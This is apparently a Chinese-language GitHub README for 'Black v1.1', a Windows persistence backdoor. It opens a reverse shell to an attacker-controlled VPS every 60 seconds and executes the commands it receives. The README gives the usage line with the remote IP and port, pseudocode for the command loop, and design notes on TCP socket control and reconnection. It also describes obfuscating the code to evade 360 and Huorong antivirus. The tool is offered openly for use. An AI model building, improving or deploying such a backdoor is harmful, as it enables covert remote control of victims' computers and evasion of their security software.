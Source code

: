# Windows权限维持后门、持续反弹shell，60s/1次、目前已实现最新版360、火绒免杀(免杀已失效，欢迎师傅们找我讨论程序的任何问题！)
Black v1.1
Usage: black.exe r_ip r_port
author: NOVASEC_黑仔
if cmd == quit:
 关闭管道，临时退出
elif cmd == exit:
 程序结束，永久退出
else:
执行命令，回显结果

##### **~开发思路：**

- S端通过socket管道来传输command给C端，C端执行，实现简易的后门控制
- 采用TCP socket、传输稳定，不掉包（可能会出现粘包，未做边界分离）
- 靶机为C端，公网VPS为S端，C端不断发起连接，以防掉线
- 混淆代码，初步免杀

![image](https://user-images.githubusercontent.com/33219753/120927097-3eb01d00-c712-11eb-83c4-3fd6ec350b37.png)
![image](https://user-images.githubusercontent.com/33219753/120927201-9ea6c380-c712-11eb-9019-27319e377eff.png)
![image](https://user-images.githubusercontent.com/33219753/120927298-0eb54980-c713-11eb-8413-f127810afbf3.png)





